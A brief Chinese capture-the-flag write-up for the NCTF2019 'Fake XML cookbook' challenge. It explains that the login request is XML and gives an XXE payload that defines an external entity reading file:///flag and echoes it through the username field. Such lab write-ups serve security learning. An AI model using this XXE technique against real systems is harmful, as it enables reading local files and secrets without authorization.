 # \[NCTF2019]Fake XML cookbook

## \[NCTF2019]Fake XML cookbook

## 考点

* XXE

## wp

打开就是登录界面，抓包，是XML

![](<../.gitbook/assets/image (34) (1) (1) (1) (1) (1) (1).png>)

会回显username，直接进行XXE注入

```xml
<!DOCTYPE ANY [
    <!ENTITY test SYSTEM "file:///flag">
]>
<user><username>&test;</username><password>123</password></user>
```

![](<../.gitbook/assets/image (27) (1) (1).png>)
